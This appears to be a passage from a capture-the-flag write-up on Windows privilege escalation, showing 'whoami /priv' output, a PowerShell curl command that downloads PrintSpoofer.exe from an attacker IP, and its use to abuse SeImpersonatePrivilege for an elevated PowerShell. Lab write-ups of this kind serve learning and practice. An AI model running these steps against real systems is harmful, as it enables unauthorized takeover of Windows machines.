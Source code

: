 ```sh
# whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
#
```

## SetImpersonatePrivilege

After a google search i found that the `PrintSpoofer` tool can exploit the `SetImpersonatePrivilege`
Check here the original blog : [printspoofer-abusing-impersonate-privileges](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

Download the exe here [PrintSpoofer.exe](https://github.com/dievus/printspoofer)

## Download the printspoofer
```sh
powershell -c curl http://10.8.28.219:81/PrintSpoofer.exe -o C:\tmp\printspoofer.exe
```

![image]( /assets/img/ustoun/2.PNG)

## Run the script
```sh
printspoofer.exe -i -c powershell
```

## Rooted
